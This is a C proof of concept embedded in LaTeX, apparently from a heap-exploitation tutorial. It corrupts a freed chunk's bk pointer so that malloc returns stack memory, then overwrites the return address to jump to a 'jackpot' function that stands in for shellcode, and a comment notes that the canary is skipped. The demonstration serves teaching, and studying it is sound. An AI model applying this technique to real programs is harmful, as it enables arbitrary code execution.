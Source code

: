 \begin{verbatim}
void jackpot()
{
    fprintf(stderr, "I'm the boss\n");
    exit(0);
}

int main()
{
       intptr_t *stack_buffer_1[4] = {0};
       intptr_t *stack_buffer_2[4] = {0};
       void *fake_freelist[7][4];

       intptr_t *victim = malloc(0x100);

       void *dummies[7];
       for (int i = 0; i < 7; i++)
              dummies[i] = malloc(0x100);

       intptr_t *victim_chunk = victim - 2;

       for (int i = 0; i < 6; i++)
       {
              fake_freelist[i][3] = fake_freelist[i + 1];
       }
       fake_freelist[6][3] = NULL;

       stack_buffer_1[0] = 0;
       stack_buffer_1[1] = 0;
       stack_buffer_1[2] = victim_chunk;

       stack_buffer_1[3] = (intptr_t *)stack_buffer_2;
       stack_buffer_2[2] = (intptr_t *)stack_buffer_1;

       stack_buffer_2[3] = (intptr_t *)fake_freelist[0];

       void *p5 = malloc(1000);

       for (int i = 0; i < 7; i++)
              free(dummies[i]);
       free((void *)victim);

       void *p2 = malloc(1200);

       //------------VULNERABILITY-----------

       victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

       //------------------------------------
       for (int i = 0; i < 7; i++)
              malloc(0x100);

       void *p3 = malloc(0x100);

       char *p4 = malloc(0x100);

       intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode

        long truc = (long)__builtin_frame_address(0);
       long offset = (long)__builtin_frame_address(0) - (long)p4;

       // This bypasses stack-smash detection since it jumps over the canary
       memcpy((p4 + offset + 8), &sc, 8);

       // sanity check
       assert((long)__builtin_return_address(0) == (long)jackpot);
}
\end{verbatim}



